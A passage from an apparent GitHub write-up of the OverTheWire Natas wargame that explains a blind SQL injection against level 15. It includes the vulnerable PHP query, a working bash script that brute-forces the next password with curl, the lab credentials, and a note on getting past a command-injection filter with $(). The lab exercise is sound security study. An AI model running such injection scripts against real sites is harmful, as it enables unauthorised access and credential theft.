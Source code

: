 The database table has `username` and `password` fields for each user. We will find `Natas16`'s password char by char by using some `SQL` features:
* `LIKE` - that operator lets us search a field not by static value, but with a template. It compares char by char instead of full strings.
* `%` - When using `LIKE`, `%` acts like a "wild card", for example `%a` fits all values ending with an 'a'.
* `BINARY` - that operator lets us compare by binary value, important for case sensitivity.

We can see the query in the page source code:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```
Notice that the value comes from `$_REQUEST`, which can be either `GET`, `POST` or a cookie. We want to use injection to make it look like this:
```sql
SELECT * from users where username="natas16" and password LIKE BINARY "<prefix>%"
```
This way, we can brute force over the optional chars, adding everytime a char to the prefix. If we added a char and it's a currect prefix, the server will respond that this user exists. Then we add it to the prefix and try to guess the next char, until we have all 32 chars of the password. As explained, this is a type of `blind SQL injection`.

```bash
#!/bin/bash
url="http://natas15.natas.labs.overthewire.org"
credentials="natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
prefix=""
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

while [ ${#prefix} -lt 32 ]; do
	for char in $(echo $chars | fold -w1); do
		pref="${prefix}${char}";

		response=$(curl -s -u $credentials "$url?username=natas16\"+and+password+LIKE+BINARY+\"$pref%");

		if echo "$response" | grep -q "exists"; then
			prefix=$pref
			echo "Current: $prefix"
			break
		fi
	done
done
echo $prefix
```
We run this code and get the next password.

Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

## Level 16 → 17
Similar to [level 9](https://github.com/iAdani/Cyber-Learning/tree/main/OverTheWire/Natas#level-9--10), we have an input and the website searches it inside `dictionary.txt` using `grep`. But this time, the input is being checked, not allowing certain symbols (```[;|&`\'"]```), and also being placed inside quotes (`"<input>"`) so getting the password is harder. Since `"` is banned by the server we need to use another technique, and luckily `$()` are not banned.
